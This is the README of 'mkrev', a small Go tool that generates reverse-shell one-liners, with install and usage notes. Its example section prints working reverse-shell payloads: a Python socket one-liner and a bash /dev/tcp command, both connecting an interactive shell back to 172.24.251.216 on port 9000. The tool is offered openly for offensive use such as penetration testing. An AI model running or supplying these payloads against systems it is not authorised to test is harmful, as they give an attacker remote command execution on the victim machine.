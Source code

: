 # Mkrev

A lazy tool to generate reverse shell, it's quicker than browsing a cheatsheet, less typing as well !

> You don't have to type the IP! All hail laziness!

## Installation

```
$ git clone https://github.com/fahmifj/mkrev.git
$ cd mkrev
$ go build -o mkrev main.go
```
> You can make the binary name even shorter, like `rs`, `grs`

For easy call, put the binary (mkrev) inside your `$HOME/bin` then append it to your $PATH variable.
```
$ export $PATH=$HOME/bin:$PATH`
```
## Usage and examples

Usage is simple where some languages (Shell options) use shorter names.

```
$ mkrev [interface] [port] [shell]
```
> Port is hard-coded to 9000.

- **interface**, an interface name like eth0, enp0s3, tun0, etc.
- **shell**, the scripting languages/utility name to generate the reverse shell code

Shortened language names:
- `py` for python
- `nc` for netcat
- `ps` for powershell
- `pl` for perl
- `rb` for ruby

Example usage

- Generate a python reverse shell

        ```
        $ mkrev eth0 py
        python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.24.251.216",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
        ```

- Generate a bash reverse shell
        ```
        $ mkrev eth0 bash
    bash -c "bash -i >& /dev/tcp/172.24.251.216/9000 0>&1
        ```%